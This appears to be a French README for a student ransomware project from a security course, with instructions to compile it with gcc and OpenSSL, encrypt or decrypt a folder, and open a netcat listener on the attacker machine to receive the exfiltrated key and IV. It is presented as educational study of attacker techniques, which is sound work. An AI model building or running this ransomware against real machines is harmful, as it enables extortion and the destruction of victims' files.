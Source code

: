 Ransom (pour ransomware) est un programme réalisé pour le cours de dévelopement IR209. 
Il à pour but de présenter le fonctionnement d'un rasomware dans le cadre de la compéhension la sécurité informatique mais du point de vue d'un attaquant.

Son utilisation est donc à des fins éducatives.
#isntalation et modification requise

Dans le code ransom.c, pensez à changer l'adresse IP de la machine où envoyé la clé

Pensez à installer netcat si vous ne l'avez pas sur votre ordinateur.

#compilation :

Pour compiler les codes "ransom.c" et "ransomlib.c", il est conseiller d'utiliser les package GCC. Vous pouvez le compiler de la façon suivante:

```bash
gcc -o ransomware.exe ransom.c ransomlib.c -lcrypto
```

L'utilisation de -lcrypto va lier les deux codes à la librairie crypto créer au téléchargement d'openssl. 
Si vous ne l'avez pas, vous pouvez utiliser la commande suivante 

```bash
apt-get install libssl-dev
```

#L'utilisation

Une fois le programme compiler, vous pouvez bouger le programme dans un dossier courant comme /usr/local/bin pour le lancer grâce à la focntion ./ransomware.exe. 
Voici l'utilisation du programme : 

```bash

- Chiffrement d'un dossier/fichier
./ransomeware.exe [Dossier/fichier]

- Déchiffrement d'un dossier/fichier
./ransomware.exe [Dossier/fichier] -d [KEY] [IV]

sur le PC attanquant, ouvrer un netcat avec la commande suivante

nc -l -p 8888

celui si va écouter sur le port 8888 pour récupérer la clé de chiffrement et le vecteur d'initialisation

```

Dans le cas ou le programme c'est lancé correctement, les fichiers à l'intérieur du dossier donné en paramètre seront bien chiffré ou déchiffrer.
Si ce n'est pas le cas, il faut vérifier la sortie d'erreur. /!\ Une limite de taille à été mise (1Gb).
L'erreur peut donc venir soit de la limite, soit si le fichier porte déjà l'extension .Pwnd. 
L'autre erreur est dans le cas ou il n'y a aucun serveur qui écoute pour récupérer la clé. 

